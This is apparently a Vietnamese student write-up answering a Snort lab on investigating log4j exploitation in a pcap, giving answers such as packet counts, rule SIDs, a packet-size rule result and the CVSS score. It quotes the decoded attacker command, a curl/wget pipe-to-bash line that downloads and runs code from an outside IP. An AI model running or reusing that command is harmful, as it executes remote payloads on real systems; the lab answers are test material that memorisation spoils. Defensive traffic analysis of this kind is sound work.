






## Trả lời các câu hỏi dưới đây
Điều hướng đến thư mục tác vụ.

Sử dụng  tệp pcap được cung cấp.

Sử dụng tệp quy tắc được cung cấp ( local.rules ) để điều tra việc khai thác log4j.

**Cau 1:** Số lượng gói tin được phát hiện là bao nhiêu?

26

**Cau 2:** Kiểm tra  các tập tin nhật ký/báo động.

Có bao nhiêu quy tắc đã được kích hoạt?
**Mỗi alert có 1 sid riêng**

4

**Cau 3:** Kiểm tra  các tập tin nhật ký/báo động.
Sáu chữ số đầu tiên của sid quy tắc được kích hoạt là gì?

210037

**Cau 4:** Xóa các tệp nhật ký và cảnh báo trước đó.

Sử dụng  tệp local-1.rules  trống để viết quy tắc mới nhằm phát hiện các gói tin có kích thước từ 770 đến 855 byte .

Số lượng gói tin được phát hiện là bao nhiêu?

>41

**Cau 5:** Kiểm tra  các tập tin nhật ký/báo động.

Tên của thuật toán mã hóa được sử dụng là gì ?

**Dùng** `sudo strings snort.log.1689857521`

>**Base64**

**Cau 6:** Kiểm tra  các tập tin nhật ký/báo động.

ID IP của gói tin tương ứng là  gì ? 
**Dùng** `sudo strings alert | grep -e 45.155.205.233 -e ID`

> **62808** 

Kiểm tra  các tập tin nhật ký/báo động.

Giải mã lệnh được mã hóa.

Lệnh của kẻ tấn công là gì?
**B1**

**B2** giải mã

>**(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash**

**Cau 7:** Điểm CVSS v2 của lỗ hổng Log4j là bao nhiêu?
tra gg
>**9.3**

